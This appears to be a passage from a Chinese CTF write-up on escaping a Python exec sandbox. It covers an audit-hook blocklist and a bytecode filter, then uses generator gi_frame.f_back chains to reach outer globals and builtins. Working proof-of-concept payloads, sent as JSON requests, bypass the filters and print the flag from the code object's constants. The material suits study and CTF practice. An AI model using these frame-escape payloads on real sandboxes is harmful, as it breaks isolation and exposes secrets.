def block_wrapper():
    """
    Check the run process with sys.audithook, no dangerous operations should be conduct
    :return: None
    """

    def audit(event, args):

        from builtins import str, print
        import os

        for i in ["marshal", "__new__", "process", "os", "sys", "interpreter", "cpython", "open", "compile", "gc"]:
            if i in (event + "".join(str(s) for s in args)).lower():
                print(i)
                os._exit(1)
    return audit


def source_opcode_checker(code):
    """
    Check the source in the bytecode aspect, no methods and globals should be load
    :param code: source code
    :return: None
    """

    from dis import dis
    from builtins import str
    from io import StringIO
    from sys import exit

    opcodeIO = StringIO()
    dis(code, file=opcodeIO)
    opcode = opcodeIO.getvalue().split("\n")
    opcodeIO.close()
    for line in opcode:
        if any(x in str(line) for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"]):
            if any(x in str(line) for x in ["randint", "randrange", "print", "seed"]):
                break
            print("".join([x for x in ["LOAD_GLOBAL", "IMPORT_NAME", "LOAD_METHOD"] if x in str(line)]))
            exit()


if __name__ == "__main__":

    from builtins import open
    from sys import addaudithook
    from contextlib import redirect_stdout
    from random import randint, randrange, seed
    from io import StringIO
    from random import seed
    from time import time

    source = open(f"/app/uploads/THIS_IS_TASK_RANDOM_ID.txt", "r").read()
    source_simple_check(source)
    source_opcode_checker(source)
    code = compile(source, "<sandbox>", "exec")
    addaudithook(block_wrapper())
    outputIO = StringIO()
    with redirect_stdout(outputIO):
        seed(str(time()) + "THIS_IS_SEED" + str(time()))
        exec(code, {
            "__builtins__": None,
            "randint": randint,
            "randrange": randrange,
            "seed": seed,
            "print": print
        }, None)
    output = outputIO.getvalue()

    if "THIS_IS_SEED" in output:
        print("这 runtime 你就嘎嘎写吧， 一写一个不吱声啊，点儿都没拦住！")
        print("bad code-operation why still happened ah?")
    else:
        print(output)

```

source_simple_check做了一个字符串的黑名单检测，source_opcode_checker做了一个字节码的检查，这里只放行了`randint`, `randrange`, `print`, `seed`这几种

但是发现这里检测后是直接break的，没有进行后续的检测，可能是一个突破口？

addaudithook函数注册了一个审计钩子函数，也是一个黑名单过滤



`__builtins__`配置为none，内置函数也用不了了，但是其实这里仅仅只是限制在exec的沙箱执行环境中，可以打栈帧逃逸

## 生成器和栈帧

参考文章：https://www.cnblogs.com/gaorenyusi/p/18242719

在 Python 中，栈帧（stack frame），也称为帧（frame），是用于执行代码的数据结构。每当 Python 解释器执行一个函数或方法时，都会创建一个新的栈帧，用于存储该函数或方法的局部变量、参数、返回地址以及其他执行相关的信息。这些栈帧会按照调用顺序被组织成一个栈，称为调用栈。

栈帧包含了以下几个重要的属性：

- `f_locals`: 一个字典，包含了函数或方法的局部变量。键是变量名，值是变量的值。
- `f_globals`: 一个字典，包含了函数或方法所在模块的全局变量。键是全局变量名，值是变量的值。
- `f_code`: 一个代码对象（code object），包含了函数或方法的字节码指令、常量、变量名等信息。
- `f_lasti`: 整数，表示最后执行的字节码指令的索引。
- `f_builtins`：当前可用内建函数
- `f_back`: 指向上一级调用栈帧的引用，用于构建调用栈。

另外还需要介绍一个概念叫生成器

生成器（Generator）是 Python 中一种特殊的迭代器，它可以通过简单的函数和表达式来创建。生成器的主要特点是能够逐个产生值，并且在每次生成值后保留当前的状态，以便下次调用时可以继续生成值。

- `gi_code`: 生成器对应的code对象。
- `gi_frame`: 生成器对应的frame（栈帧）对象。
- `gi_running`: 生成器函数是否在执行。生成器函数在yield以后、执行yield的下一行代码前处于frozen状态，此时这个属性的值为0。
- `gi_yieldfrom`：如果生成器正在从另一个生成器中 yield 值，则为该生成器对象的引用；否则为 None。
- `gi_frame.f_locals`：一个字典，包含生成器当前帧的本地变量。

由于生成器可以通过`gi_framed`属性拿到对应的frame，所以用生成器打栈帧逃逸是很不错的选择

## gi_framed 使用

`gi_frame` 是一个与生成器（generator）和协程（coroutine）相关的属性。它指向生成器或协程当前执行的帧对象（frame object），如果这个生成器或协程正在执行的话。帧对象表示代码执行的当前上下文，包含了局部变量、执行的字节码指令等信息。

写个demo

```python
def my_generator(y):
    yield 1
    yield 2
    yield 3
    
gen = my_generator(1)

#获取生成器的栈帧对象
frame = gen.gi_frame

#输出栈帧信息
print("当前代码对象: ",frame.f_code,"\n")
print("当前局部变量: ",frame.f_locals,"\n")
print("当前全局变量: ",frame.f_globals,"\n")
```

输出

```bash
当前代码对象:  <code object my_generator at 0x00000148EB604F30, file "c:\Users\23232\Desktop\附件\ctf\1.py", line 1> 

当前局部变量:  {'y': 1} 

当前全局变量:  {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x00000148EB894170>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'c:\\Users\\23232\\Desktop\\附件\\ctf\\1.py', '__cached__': None, 'my_generator': <function my_generator at 0x00000148EB66CA40>, 'gen': <generator object my_generator at 0x00000148EB60C7C0>, 'frame': <frame at 0x00000148EB8BEA20, file 'c:\\Users\\23232\\Desktop\\附件\\ctf\\1.py', line 1, code my_generator>} 
```

## 生成器打栈帧逃逸

原理就是通过生成器的栈帧对象通过`f_back`（返回前一帧）从而逃逸出去获取globals全局符号表

获取globals全局可以用`f_globals`属性

写个demo

```python
test = "secret_file"
def my_generator(y):
    yield g.gi_frame.f_back
    
g = my_generator(1)

#获取生成器的栈帧对象
frame = next(g)

#输出栈帧信息
print("当前全局变量: ",frame.f_globals['test'],"\n")

#当前全局变量:  secret_file
```

如何判断是否拿到全局？

```python
s3cret="this is flag"

codes='''
def waff():
    def f():
        yield g.gi_frame.f_back

    g = f()  #生成器
    frame = next(g) #获取到生成器的栈帧对象
    print(frame)
    print(frame.f_back)
    print(frame.f_back.f_back)
    b = frame.f_back.f_back.f_globals['s3cret'] #返回并获取前一级栈帧的globals
    return b
b=waff()
'''
locals={}
code = compile(codes, "test", "exec")
exec(code,locals)
print(locals["b"])


/*
<frame at 0x000002A2BCFACB80, file 'test', line 8, code waff>
<frame at 0x000002A2BD23F420, file 'test', line 13, code <module>>
<frame at 0x000002A2BCFE4EB0, file 'c:\\Users\\23232\\Desktop\\附件\\ctf\\1.py', line 19, code <module>>
this is flag
*/
```

最先的帧是exec，然后是b=，最后是8line那里的代码，从而拿到全局变量

回到题目

```python
exec(code, {
    "__builtins__": None,
    "randint": randint,
    "randrange": randrange,
    "seed": seed,
    "print": print
}, None)
```

因为在exec栈中将沙箱中的`__builtins__`置为空，所以没法用next函数了，需要绕过next

`next`过滤可以用列表推导式进行绕过

```python
key = "secret_test"
def waff():
    def f():
        yield g.gi_frame.f_back
        
    g = f()
    frame = [x for x in g][0]
    print(frame.f_back.f_globals['key'])
b = waff()
```

但是由于我们帧还需要往外跳两次，所以要多写两个f_back

## poc

```python
def waff():
    def f():
        yield g.gi_frame.f_back
        
    g = f()
    frame = [x for x in g][0]
    print(frame.f_back.f_back.f_back.f_globals)
b = waff()
```

```json
{"code":"def waff():\n\t def f():\n\t\t yield g.gi_frame.f_back\n\n\t g = f()\n\t frame = [x for x in g][0]\n\t print(frame.f_back.f_back.f_back.f_globals)\nb = waff()"}
```



有一个`builtins`内置模块，我们尝试调用`__builtins__`，下划线可以用数字乘法绕过

```python
def waff():
    def f():
        yield g.gi_frame.f_back

    g = f()
    frame = [x for x in g][0]
    code = frame.f_back.f_back.f_back.f_code
    bui = frame.f_back.f_back.f_back.f_globals['_'*2+'builtins'+'_'*2]
    dir = bui.dir
    print(dir(code))
    for i in code.co_consts:
        print(i)	
b=waff()
```

**f_code**里包含了函数或方法的字节码指令、常量、变量名等信息，可以用dir打印出来

然后从code里面获取co_consts

`co_consts` 是 Python **code object（代码对象）** 的一个属性，存储了该代码块在**编译期就能确定的所有常量**，以元组形式保存。

```json
{"code":"def waff():\n\t def f():\n\t\t yield g.gi_frame.f_back\n\n\t g = f()\n\t frame = [x for x in g][0]\n\t code = frame.f_back.f_back.f_back.f_code\n\t bui = frame.f_back.f_back.f_back.f_globals['_'*2+'builtins'+'_'*2]\n\t dir = bui.dir\n\n\t print(dir(code))\n\t for i in code.co_consts:\n\t\t print(i)\nb=waff()\n\n\n"}
```

但是这里需要绕过一个if



用str转化一下

```json
{"code":"def waff():\n\t def f():\n\t\t yield g.gi_frame.f_back\n\n\t g = f()\n\t frame = [x for x in g][0]\n\t code = frame.f_back.f_back.f_back.f_code\n\t bui = frame.f_back.f_back.f_back.f_globals['_'*2+'builtins'+'_'*2]\n\t dir = bui.dir\n\t str = bui.str\n\t for i in str(code.co_consts):\n\t\t print(i)\nb=waff()\n\n\n"}
```



丢给ai整理一下

```bash
(
  <code object source_simple_check ...  line 1>,
  <code object block_wrapper ...        line 24>,
  <code object source_opcode_checker ... line 42>,
  '__main__',
  0,
  ('open',),
  ('addaudithook',),
  ('redirect_stdout',),
  ('randint', 'randrange', 'seed'),
  ('StringIO',),
  ('seed',),
  ('time',),
  '/app/uploads/af6ec4ee-2e94-11f1-bd5a-0242ac0c07a2.txt',
  'r',
  '<sandbox>',
  'exec',
  'ctfshow{5f68e46f-e7bc-4654-b563-2c874b920a9e}',   
  None,
  ('__builtins__', 'randint', 'randrange', 'seed', 'print'),
  '这 runtime 你就嗯嗯写吧， 一写一个不吱声啊，点儿都没拦住！',
  'bad code-operation why still happened ah?'
)
```

当然也可以直接倒序输出

```json
{"code":"def waff():\n    def f():\n        yield g.gi_frame.f_back\n\n    g = f()\n    frame = [x for x in g][0]\n    r = frame.f_back.f_back.f_back\n    print(r.f_code.co_consts[16][::-1])\n\nwaff()"}
```


